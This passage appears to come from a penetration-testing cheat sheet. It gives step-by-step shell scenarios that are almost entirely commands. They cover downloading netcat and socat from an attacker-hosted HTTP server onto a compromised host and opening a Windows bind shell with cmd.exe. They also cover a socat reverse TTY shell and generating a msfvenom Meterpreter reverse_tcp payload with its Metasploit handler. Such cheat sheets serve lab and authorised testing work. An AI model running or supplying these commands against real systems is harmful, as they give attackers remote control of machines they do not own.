 ### Scenario 2: Windows Bind Shell
- **Context**: Command execution via a Windows webshell, inbound port 4444 open.
- **Steps**:
  1. Upload `nc.exe`:
     ```bash
     sudo python3 -m http.server 80
     # In webshell
     powershell -c "Invoke-WebRequest -Uri http://10.10.10.5/nc.exe -OutFile C:\Windows\Temp\nc.exe"
     ```
  2. Bind shell:
     ```bash
     C:\Windows\Temp\nc.exe -lvnp 4444 -e cmd.exe
     ```
  3. Connect:
     ```bash
     nc 10.10.10.100 4444
     ```

### Scenario 3: Stable Socat TTY Shell
- **Context**: Netcat shell on Linux, need interactive shell.
- **Steps**:
  1. Upload Socat:
     ```bash
     sudo python3 -m http.server 80
     # In shell
     wget 10.10.10.5/socat -O /tmp/socat; chmod +x /tmp/socat
     ```
  2. Listener:
     ```bash
     socat TCP-L:443 FILE:`tty`,raw,echo=0
     ```
  3. Connect:
     ```bash
     /tmp/socat TCP:10.10.10.5:443 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
     ```

### Scenario 4: Windows Meterpreter
- **Context**: RDP access to Windows, want Meterpreter.
- **Steps**:
  1. Generate:
     ```bash
     msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.10.5 LPORT=443
     ```
  2. Listener:
     ```bash
     msfconsole
     use multi/handler
     set PAYLOAD windows/x64/meterpreter/reverse_tcp
     set LHOST 10.10.10.5
     set LPORT 443
     exploit -j
     ```
  3. Upload and run `shell.exe` via RDP.

